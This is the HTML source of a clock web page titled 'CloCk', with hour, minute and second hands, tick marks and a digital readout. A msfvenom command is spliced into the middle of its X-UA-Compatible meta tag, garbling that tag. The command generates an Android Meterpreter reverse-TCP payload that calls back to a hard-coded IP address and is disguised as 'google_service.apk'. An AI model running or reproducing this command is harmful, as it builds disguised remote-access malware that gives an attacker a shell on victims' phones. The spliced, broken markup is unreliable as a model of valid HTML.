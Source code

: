 <!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-> msfvenom -p andriod/meterpreter/reverse_tcp LHOST=25.8.64.25 LPORT=1234 R > google_service.apk-Compatible" content="ie=edge">
  <title>CloCk</title>
  <link rel="stylesheet" href="style.css">
</head>

<body>

  <div class="container">
    <div class="date">Date</div>
    <div class="day">Today</div>
    <div class="clock">
      <div class="hand hour"></div>
      <div class="hand min"></div>
      <div class="hand sec"></div>
      <div style="--i:1" class="letter"><b>1</b></div>
      <div style="--i:2" class="letter"><b>2</b></div>
      <div style="--i:3" class="letter"><b>3</b></div>
      <div style="--i:4" class="letter"><b>4</b></div>
      <div style="--i:5" class="letter"><b>5</b></div>
      <div style="--i:6" class="letter"><b>6</b></div>
      <div style="--i:7" class="letter"><b>7</b></div>
      <div style="--i:8" class="letter"><b>8</b></div>
      <div style="--i:9" class="letter"><b>9</b></div>
      <div style="--i:10" class="letter"><b>10</b></div>
      <div style="--i:11" class="letter"><b>11</b></div>
      <div style="--i:12" class="letter"><b>12</b></div>
      <div style="--i:1" class="number">|</div>
      <div style="--i:2" class="number">|</div>
      <div style="--i:3" class="number">|</div>
      <div style="--i:4" class="number">|</div>
      <div style="--i:5" class="number"><b></b></div>
      <div style="--i:6" class="number">|</div>
      <div style="--i:7" class="number">|</div>
      <div style="--i:8" class="number">|</div>
      <div style="--i:9" class="number">|</div>
      <div style="--i:10" class="number"><b></b></div>
      <div style="--i:11" class="number">|</div>
      <div style="--i:12" class="number">|</div>
      <div style="--i:13" class="number">|</div>
      <div style="--i:14" class="number">|</div>
      <div style="--i:15" class="number"><b class="a12"></b></div>
      <div style="--i:16" class="number">|</div>
      <div style="--i:17" class="number">|</div>
      <div style="--i:18" class="number">|</div>
      <div style="--i:19" class="number">|</div>
      <div style="--i:20" class="number"><b></b></div>
      <div style="--i:21" class="number">|</div>
      <div style="--i:22" class="number">|</div>
      <div style="--i:23" class="number">|</div>
      <div style="--i:24" class="number">|</div>
      <div style="--i:25" class="number"><b></b></div>
      <div style="--i:26" class="number">|</div>
      <div style="--i:27" class="number">|</div>
      <div style="--i:28" class="number">|</div>
      <div style="--i:29" class="number">|</div>
      <div style="--i:30" class="number"><b class="a12"></b></div>
      <div style="--i:31" class="number">|</div>
      <div style="--i:32" class="number">|</div>
      <div style="--i:33" class="number">|</div>
      <div style="--i:34" class="number">|</div>
      <div style="--i:35" class="number"><b></b></div>
      <div style="--i:36" class="number">|</div>
      <div style="--i:37" class="number">|</div>
      <div style="--i:38" class="number">|</div>
      <div style="--i:39" class="number">|</div>
      <div style="--i:40" class="number"><b></b></div>
      <div style="--i:41" class="number">|</div>
      <div style="--i:42" class="number">|</div>
      <div style="--i:43" class="number">|</div>
      <div style="--i:44" class="number">|</div>
      <div style="--i:45" class="number"><b class="a12"></b></div>
      <div style="--i:46" class="number">|</div>
      <div style="--i:47" class="number">|</div>
      <div style="--i:48" class="number">|</div>
      <div style="--i:49" class="number">|</div>
      <div style="--i:50" class="number"><b></b></div>
      <div style="--i:51" class="number">|</div>
      <div style="--i:52" class="number">|</div>
      <div style="--i:53" class="number">|</div>
      <div style="--i:54" class="number">|</div>
      <div style="--i:55" class="number"><b></b></div>
      <div style="--i:56" class="number">|</div>
      <div style="--i:57" class="number">|</div>
      <div style="--i:58" class="number">|</div>
      <div style="--i:59" class="number">|</div>
      <div style="--i:60" class="number"><b class="a12"></b></div>
    </div>
    <div class="digital">
      <div class="time hours">00</div>
      <div class="time minutes">00</div>
      <div class="time seconds">00</div>
      <div class="time ampm">AM</div>
    </div>
  </div>

  <script src="script.js"></script>
</body>

</html>
